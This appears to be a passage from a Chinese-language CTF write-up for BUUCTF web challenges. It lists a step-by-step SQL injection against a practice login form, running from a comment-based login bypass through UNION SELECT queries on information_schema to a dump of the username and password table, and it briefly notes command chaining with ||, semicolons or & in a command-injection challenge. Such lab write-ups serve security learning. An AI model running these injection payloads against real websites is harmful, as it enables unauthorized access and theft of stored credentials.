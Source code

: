 不知道为啥，这里只能%23，不能#和--+

```
?username=admin'%23&password=1

?username=admin' order by 3%23&password=1

?username=111' union select 1,2,3%23&password=1
是2和3

?username=111' union select 1,database(),3%23&password=1
数据库名：geek

?username=111' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='geek'%23&password=1
得到可疑表：l0ve1ysq1

?username=111' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema='geek' and table_name='l0ve1ysq1'%23&password=1
得到字段id,username,password

?username=111' union select 1,group_concat(id,username,password),3 from geek.l0ve1ysq1%23&password=1
或者：
?username=111' union select id,username,password from geek.l0ve1ysq1 limit 0,1%23&password=1
一个一个查
```

## 0x9.[ACTF2020 新生赛]Exec

就是连接命令，可以管道符||，也可以分号，或者&这个符号。

但是经过测试，之后分号可以多个命令一起执行（在这道题）

![image-20210415165001140](BUU-WEB-0x1-0xF/image-20210415165001140.png)
